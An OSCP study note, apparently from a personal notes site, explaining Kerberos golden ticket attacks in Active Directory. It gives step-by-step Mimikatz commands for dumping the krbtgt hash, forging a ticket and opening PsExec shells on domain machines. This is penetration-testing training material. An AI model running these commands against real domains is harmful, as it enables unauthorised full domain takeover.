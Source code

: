 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/7-golden-tickets/"}
---
```


---------
- TGTs are encrypted using the hash of the krbtgt user.
- If the hash of krbtgt could be acquired one could create custom TGTs, a.k.a. golden tickets.
- Golden tickets gives permission to access the entire domain's resources
- E.g. one could create a ticket stating that any user is a member of the Domain Admins group.
- To get the krbtgt hash a Domain Admin user is required, or if the domain controller itself is compromised.
- The ticket itself can be created from anywhere without privileges.
------------
### Generate Golden Ticket Locally Using Mimikatz:
1. Get hold of krbtgt hash, e.g. by compromising DC and dumping NTLM with "lsadump::lsa /patch".
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Purge all existing kerberos tickets in Mimikatz:
```
kerberos::purge
```
4. Generate ticket:
```
kerberos::golden /user:<golden-ticket-username> /domain:<domain> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /ptt
```
5. Launch new command prompt:
```
misc::cmd
```
6. Use PsExec to launch shells to arbitrary domain machines:
```
PsExec.exe \\<host> cmd.exe
```
- Important to use hostname instead of ip since we want to authenticate with kerberos.



